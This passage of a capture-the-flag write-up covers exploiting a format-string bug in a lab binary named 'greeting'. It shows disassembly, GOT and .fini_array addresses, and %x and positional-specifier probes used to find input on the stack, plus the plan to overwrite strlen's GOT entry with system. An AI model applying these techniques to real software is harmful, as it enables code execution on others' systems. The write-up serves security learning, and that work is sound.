 Through all of that we can see that the `.fini_array` is at `0x8049934`:

```
    0x08049934 - 0x08049938 is .fini_array
```

For the address we will loop back to, I choose `0x8048614`. This is the start of the setup for the `getnline` function call, and through trial and error we can see that it doesn't crash when we loop back here:

```
        0804860f e8 3c fe        CALL       printf                                           int printf(char * __format, ...)
                 ff ff
        08048614 c7 44 24        MOV        dword ptr [ESP + local_ac],0x40
                 04 40 00
                 00 00
        0804861c 8d 44 24 5c     LEA        EAX=>name,[ESP + 0x5c]
        08048620 89 04 24        MOV        dword ptr [ESP]=>local_b0,EAX
        08048623 e8 51 00        CALL       getnline                                         undefined getnline(undefined4 pa
                 00 00
```

Now brings up the question of which function's got address will we overwrite. Since the function system takes a single argument (a char pointer), ideally it would be a function that takes a single argument that is a char pointer to our input. I decided to go with the `strlen`, since in `getnline` it is called with a char pointer to our input. In addition to that, it isn't called somewhere else that would cause a crash with what we are doing. In Ghidra looking at the `.got.plt` memory region, we can see that the `got` entry is at `0x8049a54`:

```
                             PTR_strlen_08049a54                             XREF[1]:     strlen:080484c0  
        08049a54 20 a0 04 08     addr       strlen                                           = ??
```

We can also find it using `objdump`:
```
$    objdump -R greeting | grep system
08049a48 R_386_JUMP_SLOT   system@GLIBC_2.0
```

So now the last part I need to cover is actually exploiting the format string bug. I did this by hand, and it tends to get a bit grindy. The first thing we need to do is find our input in reference to the `printf` call, which we can do using the `%x` flag:

```
./greeting-1da3bd8f02ee33a89b6f998afbbcc55de162d88c95dbe6a8724aaaea7671cb4c
Hello, I'm nao!
Please tell me your name... 0000111122223333.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
Nice to meet you, 0000111122223333.80487d0.ff8c4e3c.0.0.0.0.6563694e.206f7420.7465656d.756f7920.3030202c.31313030.32323131.33333232.252e3333.% :)
```

So we can see our input popping up `3030202c.31313030.32323131.33333232` (`1` = `0x31`, `2` = `0x32`, `0`=`0x30`). Through a bit of shifting around values, we can find that the format string `xx0000111122223333` gives us what we need.
```
./greeting
Hello, I'm nao!
Please tell me your name... xx0000111122223333.%12$x.%13$x.%14$x.%15$x
Nice to meet you, xx0000111122223333.30303030.31313131.32323232.33333333 :)
```
